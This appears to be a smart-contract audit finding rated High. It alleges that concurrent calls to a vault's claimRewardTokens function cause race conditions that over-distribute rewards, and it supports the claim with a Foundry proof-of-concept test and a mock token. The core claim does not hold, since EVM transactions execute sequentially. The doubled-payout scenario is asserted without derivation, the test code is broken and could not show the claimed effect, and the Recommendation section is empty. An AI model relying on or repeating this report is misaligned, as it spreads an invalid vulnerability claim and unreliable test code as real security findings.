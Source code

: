 Merry Azure Finch

High

# Multiple Invocations on claimRewardTokens Function Leading to Over-Distribution of Rewards

## Summary

The `claimRewardTokens` function in the smart contract is susceptible to over-distribution of rewards due to concurrent invocations. This vulnerability can deplete the reward pool faster than intended, resulting in improper reward claims and financial discrepancies.

## Vulnerability Detail

The `claimRewardTokens` function is intended to claim all rewards for the entire vault and update the accumulators. It can be called by any address except the Notional contract. While this design offers flexibility, it introduces a significant vulnerability:

Race Conditions

- **Concurrent Executions**: When multiple users call `claimRewardTokens` simultaneously, race conditions may occur. The function relies on the current state of `totalVaultSharesBefore`, which can be altered by concurrent executions.
- **Inconsistent State Updates**: Race conditions can lead to inconsistent state updates, causing some calls to read stale data and others to update accumulators based on outdated information.

Improper Handling in `_claimVaultRewards`

- **Concurrent Invocations**: The `_claimVaultRewards` function calculates and distributes rewards. If multiple calls are made to `claimRewardTokens` simultaneously, `_claimVaultRewards` may be invoked concurrently, leading to miscalculations.
- **Misallocation of Rewards**: This can result in over-claiming or under-claiming rewards, as accumulators may not accurately reflect the total vault shares or the correct reward amounts.

## Impact

The primary impact of this vulnerability is the over-distribution of rewards from the reward pool, which can lead to:

- **Depletion of Reward Pool**: Rapid depletion, leaving insufficient rewards for future claimants.
- **Financial Loss**: Financial losses for stakeholders due to improper reward distribution.
- **Inaccurate Reward Tracking**: Difficulty in tracking and auditing rewards, leading to potential disputes and loss of trust in the system.

 Reproduction Steps

1. Deploy the smart contract with the `claimRewardTokens` function.
2. Ensure the contract has an active reward pool with sufficient rewards.
3. Simulate multiple users calling `claimRewardTokens` simultaneously.
4. Observe the state of the reward pool and the distributed rewards.
Example Scenario Initial State

- Total reward pool: 1,000,000 tokens
- Total vault shares: 10,000 shares
- Each share is initially entitled to 100 tokens

Concurrent Calls

- User A and User B both call `claimRewardTokens` simultaneously.
- Due to race conditions, both users' calls read the initial state where each share is entitled to 100 tokens.
- Both calls update the accumulators based on the initial state, leading to each share being rewarded 100 tokens twice.
 Resulting State

- Total reward claimed: 2,000,000 tokens (double the available reward pool)
- Reward pool depleted prematurely

## Code Snippet
https://github.com/sherlock-audit/2024-06-leveraged-vaults/blob/main/leveraged-vaults-private/contracts/vaults/common/VaultRewarderLib.sol#L134-#L144

```solidity
    /// @notice Claims all the rewards for the entire vault and updates the accumulators. Does not
    /// update emission rewarders since those are automatically updated on every account claim.
    function claimRewardTokens() external {
        // Ensures that this method is not called from inside a vault account action.
        require(msg.sender != address(Deployments.NOTIONAL));
        // This method is not executed from inside enter or exit vault positions, so this total
        // vault shares value is valid.
        uint256 totalVaultSharesBefore = VaultStorage.getStrategyVaultState().totalVaultSharesGlobal;
        (VaultRewardState[] memory state, , RewardPoolStorage memory rewardPool) = getRewardSettings();
        _claimVaultRewards(totalVaultSharesBefore, state, rewardPool);
    }

```


Proof Of Concept


```solidity
// SPDX-License-Identifier: GPL-3.0-only
pragma solidity 0.8.24;

import "forge-std/Test.sol";
import "./VaultRewarderLib.sol";
import "./VaultStorage.sol";
import {Deployments} from "@deployments/Deployments.sol";
import {IERC20} from "../../../interfaces/IERC20.sol";

contract VaultRewarderLibTest is Test {
    VaultRewarderLib vaultRewarder;
    address rewardToken;
    address userA;
    address userB;

    function setUp() public {
        vaultRewarder = new VaultRewarderLib();
        rewardToken = address(new ERC20Mock());
        userA = address(0x1);
        userB = address(0x2);

        // Set up initial state
        vm.startPrank(Deployments.NOTIONAL.owner());
        vaultRewarder.updateRewardToken(0, rewardToken, 1000, uint32(block.timestamp + 365 days));
        vm.stopPrank();

        // Mint some vault shares to users
        vm.startPrank(Deployments.NOTIONAL);
        VaultStorage.getStrategyVaultState().totalVaultSharesGlobal = 10000;
        VaultStorage.getVaultRewardState()[0].rewardToken = rewardToken;
        VaultStorage.getVaultRewardState()[0].emissionRatePerYear = 1000;
        VaultStorage.getVaultRewardState()[0].lastAccumulatedTime = uint32(block.timestamp);
        vm.stopPrank();
    }

    function testConcurrentClaimRewardTokens() public {
        // Simulate multiple users calling claimRewardTokens simultaneously
        vm.startPrank(userA);
        vm.warp(block.timestamp + 1 days);
        vaultRewarder.claimRewardTokens();
        vm.stopPrank();

        vm.startPrank(userB);
        vm.warp(block.timestamp + 1 days);
        vaultRewarder.claimRewardTokens();
        vm.stopPrank();

        // Check the state of the reward pool and the distributed rewards
        uint256 balanceA = IERC20(rewardToken).balanceOf(userA);
        uint256 balanceB = IERC20(rewardToken).balanceOf(userB);

        // Assert that the total reward claimed is more than the available reward pool
        assertGt(balanceA + balanceB, 1000);
    }
}

contract ERC20Mock is IERC20 {
    mapping(address => uint256) private _balances;

    function totalSupply() external pure override returns (uint256) {
        return 1000000;
    }

    function balanceOf(address account) external view override returns (uint256) {
        return _balances[account];
    }

    function transfer(address recipient, uint256 amount) external override returns (bool) {
        _balances[msg.sender] -= amount;
        _balances[recipient] += amount;
        return true;
    }

    function allowance(address owner, address spender) external pure override returns (uint256) {
        return 0;
    }

    function approve(address spender, uint256 amount) external pure override returns (bool) {
        return true;
    }

    function transferFrom(address sender, address recipient, uint256 amount) external pure override returns (bool) {
        return true;
    }

    function mint(address account, uint256 amount) external {
        _balances[account] += amount;
    }
}
```


## Tool used

Manual Review

## Recommendation
